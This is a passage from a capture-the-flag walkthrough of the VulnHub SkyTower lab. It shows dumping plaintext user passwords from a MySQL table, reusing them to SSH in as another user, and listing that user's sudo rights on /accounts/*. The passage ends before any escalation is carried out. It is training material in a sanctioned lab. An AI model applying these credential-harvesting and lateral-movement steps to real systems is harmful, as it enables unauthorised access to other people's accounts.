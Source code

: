```sql
mysql> use SkyTech;
Database changed

mysql> show tables;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+--------------------
```

We've now discovered credentials for two additional users: sara and william.

###  Lateral Movement to Sara

We use Sara's credentials to gain access to her account:

```
┌──(kali㉿kali)-[~/vulnhub/skyTower]
└─$ ssh sara@localhost -p 1234          
sara@localhost's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Sep  3 12:56:54 2024 from localhost
```

We discover that Sara has sudo privileges to run `cat` and `ls` on files in the `/accounts/` directory.
```
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```

